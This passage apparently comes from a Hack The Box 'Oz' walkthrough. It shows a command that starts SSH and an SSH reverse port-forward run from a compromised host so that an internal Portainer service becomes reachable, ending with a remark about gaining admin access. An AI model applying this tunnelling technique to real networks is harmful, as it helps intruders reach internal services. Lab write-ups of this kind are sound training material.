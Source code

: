 ```
# systemctl start ssh
```

_On the remote shell_

```
$ ssh -R 10.10.13.52:9999:172.17.0.2:9000 root@10.10.13.52 -fN
```

This is how Portainer looks like.

<a class="image-popup">
![bb59f3f9.png](/assets/images/posts/oz-htb-walkthrough/bb59f3f9.png)
</a>

Oh! The sweet taste of admin access.

<a class="image-popup">